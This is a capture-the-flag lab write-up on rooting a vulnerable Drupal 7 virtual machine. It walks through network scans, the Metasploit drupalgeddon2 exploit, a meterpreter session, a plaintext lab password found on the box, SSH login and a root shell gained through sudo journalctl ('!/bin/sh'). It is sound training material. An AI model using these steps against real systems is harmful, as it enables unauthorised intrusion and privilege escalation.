 # Report Labs / Flavio POGGIOLI

## Table of contents

  - [Report Labs / Flavio POGGIOLI](#report-labs--flavio-poggioli)
  - [Table of contents](#table-of-contents)

## VM n°207 

Goal : find the root Flag.

### 1. Find IP address of the machine

```bash
$ sudo netdiscover -r 10.0.2.0/24
```
![picture 2](../images/dbdb62e0e1c5ed3fd7088a391cdb1a9cd4c1e52a818f786f2d4d36a9d44d2690.png)  

Our target is 10.0.2.5. 

The 2 first is VBox address (network and dhcp).

### 2. List all open ports

We need to determine the open ports and the services running on them using nmap with some options.

```bash
$ sudo nmap -p- 10.0.2.5
```
![picture 1](../images/e73bc8b9096a5159631c59bd2426f4de02b3ca41dd097dcd5a26f0dd8eaf51fb.png)  

For more precision on version and services, we can use the following command :

```bash 
nmap -Pn -sC -sV -p- 10.0.2.5
```
![picture 3](../images/9f9cacc3afecd896756c2760e43ec342aa6cdb354b96705a93835491c545faae.png)  

We can see that multiple ports are open (22, 80, 5000, 8081, 9001).

For the port 80, which host a web server, we can dig to find a something in arborescence directory. We will use dirb.

```bash
$ dirb http://10.0.2.5 -w
```
![picture 7](../images/059b96d242b3101a2431a397f418ca384f05011872e9a3883164636274b4185a.png)  

There is 2 files which can be interesting : /index.txt and /robots.txt.

In robots.txt, we can find about.html that dirb didn't find.

![picture 8](../images/d9b51a4ca1593f3067c49e15b984d7ffb835eb35522fe5acaf8199ba2f93a019.png)  

They told us to not brute force the vulnerable stuff because it doesn't work everytime.

We can try to search for the CMS like the name of the machine suggest it.

Drupal 7 is used on this machine (we have seen it on second nmap scan).

### 3. Find vulnerabilities

We can use searchsploit to find vulnerabilities on Drupal 7 that we will using with MetaSploit.

```bash
$ searchsploit drupal 7

$ msfconsole

$ search drupal 7
```
![picture 9](../images/e22bce70cb67f8c22d04c49821b1791dd63bd669412888441e8b45eb1304ea13.png)  

![picture 10](../images/9e97cbf808de61c54f70a8a1e598c0595d4c57b2b625082b0beb7afb03889186.png)  

### 4. Exploit

We can test the exploit drupal_drupalgeddon2 which has an "excellent" rank.

```bash
msf6 > use exploit/unix/webapp/drupal_drupalgeddon2
```

We need to set the options of the exploit.
To see what attributes are present in the exploit that needed to be set again, we will use the command :

```bash
msf6 exploit(unix/webapp/drupal_drupalgeddon2) > options
```

![picture 11](../images/142838e243e9dccfb0d7111135ec40859fb83272127518198e0349c25a88d2b4.png)  

We have to change 3 attributes : RHOSTS, RPORT and LPORT.

```bash
msf6 exploit(unix/webapp/drupal_drupalgeddon2) > set rhosts 10.0.2.5
rhosts => 10.0.2.5
msf6 exploit(unix/webapp/drupal_drupalgeddon2) > set rport
rport => 80
msf6 exploit(unix/webapp/drupal_drupalgeddon2) > set rport 9001
rport => 9001
msf6 exploit(unix/webapp/drupal_drupalgeddon2) > set lport 1234
lport => 1234
```

And now, we can run the exploit.

```bash
msf6 exploit(unix/webapp/drupal_drupalgeddon2) > exploit
```

Now that we have an interpretzer, we can use the command "ls" and we can distinguish 2 files with a different last modified date than the other files / directories.

![picture 12](../images/2d63c959c2ae0c892d5460cdd2d4fe737fc1212cad2a37eaae0cd1ed1e477039.png)  

LICENSE.txt has nothing special but misc has some interesting files.

```bash
meterpreter > ls misc
```

After a search, there is a file with different permissions and again, a different last modified date : tyrell.pass.

![picture 13](../images/5704a953278b7be2d2a891c2c79651fcad584d335d10d0c56c82fd5cf8f89dd6.png)  

We find a username and a password to use it on SSH connection.

Now, we can list all users with the home directory.

![picture 14](../images/9c948e7a0dd8dd17aa15f0c2a071822d3f37b9ce5be342bc983a6c4faf122103.png)  

tyrell and ghost are empty but Elliot directory has a file named user.txt but we don't have the permission to read it.

### 5. SSH connection

Now that we have credentials :

```bash
Username: tyrell
Password: mR_R0bo7_i5_R3@!_
```

We can try to connect with these credentials on SSH connection.

![picture 15](../images/9cd3f862d06258f42786eaf807d826305bab2ca5b1478d1a5ebaa812705f6cf6.png)  

But tyrell cannot do a "sudo bash" to get a root shell.

![picture 16](../images/6838ea1c55cce90af94b36c33454b96ba54f4ee507afc2d8e9572c02f230c158.png)  

To gain root access, I've used GTFOBins, list of Unix binaries that can be used to bypass local security restrictions in misconfigured systems

[journalctl](https://gtfobins.github.io/gtfobins/journalctl/) can be used to gain root access.

```bash
tyrell@vuln_cms:~$ sudo /bin/journalctl

!/bin/sh
```
And with that, you have root access.